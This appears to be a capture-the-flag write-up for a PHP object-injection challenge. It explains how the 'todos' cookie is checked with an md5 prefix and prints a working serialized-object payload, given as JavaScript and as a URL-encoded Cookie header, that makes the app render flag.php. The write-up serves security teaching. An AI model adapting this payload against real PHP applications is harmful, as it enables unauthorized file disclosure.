 Vulnerability
-------------

PHP Object Injection / PHP Insecure Object Deserialization

Exploit
-------

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag.

So we have to make a request with this Cookie:
```javascript
todos = encodeURIComponent(
    '760463360e4919ca238d1566fc26661f'+
    'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
)
```

You can use the `encodeURIComponent` JavaScript function.

`Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D`

Exploit in `../sol/solution.sh`.
